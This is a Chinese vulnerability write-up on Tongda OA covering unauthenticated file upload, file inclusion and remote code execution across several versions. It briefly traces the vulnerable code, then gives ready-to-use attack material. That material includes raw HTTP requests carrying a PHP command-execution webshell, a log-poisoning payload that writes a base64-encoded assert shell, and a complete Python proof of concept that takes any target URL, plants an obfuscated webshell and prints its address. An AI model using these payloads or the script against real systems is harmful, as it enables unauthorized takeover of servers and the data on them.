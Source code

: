 通达oa 任意文件上传+rce+文件包含
================================

一、漏洞简介
------------

有些版本gateway.php路径不同

例如2013：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/ispirit/interface/gateway.php

例如2017：

    http://www.0-sec.org/ispirit/im/upload.php
    http://www.0-sec.org/mac/gateway.php

    C:\MYOA>dir /s /b gateway.php
    C:\MYOA\webroot\mac\gateway.php

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

    http://www.0-sec.org/api/ddsuite/error.php

    POST:message=<?php file_put_contents("2.php",base64_decode("PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4="));?>52011 

    然后包含

    http://www.0-sec.org/mac/gateway.php
    POST:json={"url":"..\/..\/logs\/oa\/2003\/dd_error.log"}

    在http://192.168.124.138/mac/2.php就是shell密码1

二、漏洞影响
------------

V11版2017版2016版2015版2013增强版2013版

三、复现过程
------------

我们根据官网发布的补丁，更新的是ispirit/im/upload.php这个文件，我们跟进这个文件

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId24.png)

当传入P参数时，就可以绕过登录认证，直接获取到session。

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId25.png)

跟进函数流程，逻辑判断是否传入DEST\_UID并且不为0，否则直接退出。

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId26.png)

传入一个DEST\_UID后，访问，提示无文件上传

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId27.png)

1\<=count(\$\_FILES)判断是否有文件上传，后面的逻辑，如果传入文件，直接进入未授权任意文件上传

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId28.png)

可以使用python3的requests库进行文件上传操作，跟进代码，后面判断的是UPLOAD\_MODE上传模式的值，如果传入UPLOAD\_MODE，当取值为1，2，3时，将回显。

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId30.png)

进入上传逻辑，调用upload()函数，upload()会对上传的文件进行后缀名检测，这里使用name.php.即可绕过文件后缀名限制，调用upload函数后，会返回一个\$ATTACHMENTS数组，这也是后面我们传入上传模式UPLOAD\_MODE值时会根据该值的取值返回\$ATTACHMENTS\[ID\]和\$ATTACHMENTS\[NAME\]

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId31.png)

跟进upload()函数，\$ATTACHMENTS\[ID\]由add\_attach()函数返回在add\_attach()可以看到传入的文件存储路径为

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId32.png)

\$MODULE的值在upload.php文件中指定为im

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId33.png)

存储路径就保存在在upload.php文件中指定的attch/im/\$YM/文件夹下面，文件名就是\$ATTACH\_ID.\$ATTACH\_FILEadd\_attach()函数最终返回的前台的能够回显的\$ATTACHMENTS\[ID\]里面就包含上传的文件名和路径。

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId34.png)

此时，我们就可以构造payloads进行任意文件上传

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId35.png)

但是，开发者指定的保存路径不在wwwroot目录下面，我们只能通过文件包含漏洞进行包含触发漏洞。文件包含漏洞出现在/ispirit/interface/gateway.php，首先接从客户端接收一个\$json的参数，然后将\$json转换为数组后再转换成变量，当存在\$json数据中存在一个key为url的且不为空的值时，并且url传入的数据中有general/或者ispirit/或者module/时，执行include\_once包含该url。

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId36.png)

此处文件包含的另外一个利用，直接触发nginx的错误日志，利用文件包含直接getshell

![](/Users/aresx/Documents/VulWiki/.resource/通达oa任意文件上传+rce+文件包含/media/rId37.png)

### 请求包

    POST /ispirit/im/upload.php HTTP/1.1
    Host: 10.10.20.116:88
    Content-Length: 658
    Cache-Control: no-cache
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
    Cookie: PHPSESSID=123
    Connection: close

    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="UPLOAD_MODE"

    2
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="P"

    123
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="DEST_UID"

    1
    ------WebKitFormBoundarypyfBh1YB4pV8McGB
    Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
    Content-Type: image/jpeg

    <?php
    $command=$_POST['cmd'];
    $wsh = new COM('WScript.shell');
    $exec = $wsh->exec("cmd /c ".$command);
    $stdout = $exec->StdOut();
    $stroutput = $stdout->ReadAll();
    echo $stroutput;
    ?>
    ------WebKitFormBoundarypyfBh1YB4pV8McGB--
    POST /mac/gateway.php HTTP/1.1
    Host: 10.10.20.116:88
    Connection: keep-alive
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: python-requests/2.21.0
    Content-Length: 71
    Content-Type: application/x-www-form-urlencoded

    json={"url":"/general/../../attach/im/2003/938379153.jpg"}&cmd=net user

### poc （上传+文件包含+rce）

    import os
    import requests

    # 定义webshell，因为是包含，所以用写入马比较方便
    # 这个马自带bypass disable_function 功能
    shell = '''<?php
    $fp = fopen('readme.php', 'w+');
    $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
    fwrite($fp, urldecode($a));
    fclose($fp);
    ?>
    '''

    # 输入目标
    url = input("input the TARGET(example:[url]https://127.0.0.1:1080[/url])>")
    # 定义上传目录和包含目录
    upload_url = url+"/ispirit/im/upload.php"
    include_url = url+"/ispirit/interface/gateway.php"
    # 定义shell目录，如果要修改名字，需要把shell里面的一起改了
    shell_url = url+"/ispirit/interface/readme.php"
    files = {'ATTACHMENT': shell}
    # 参见源码，有漏洞的版本只要POST P和DEST_UID参数就会自动生成session
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    # 上传
    upload_res = requests.post(upload_url, upload_data, files=files)
    # 此时会返回上传文件的路径
    path = upload_res.text
    # 解析返回值获取上传地址
    path = path[path.find('@')+1:path.rfind('|')
                ].replace("_", "\/").replace("|", ".")
    # 由于上传文件会自动改为jpg，所以要用gateway.php包含
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path+"\"}"}
    # 包含+自动写入shell
    include_res = requests.post(include_url, data=include_data)
    # 返回结果 a参数可以直接填入系统命令（比如whoami），默认是system权限
    print('shell is here:'+shell_url+'?a=command')
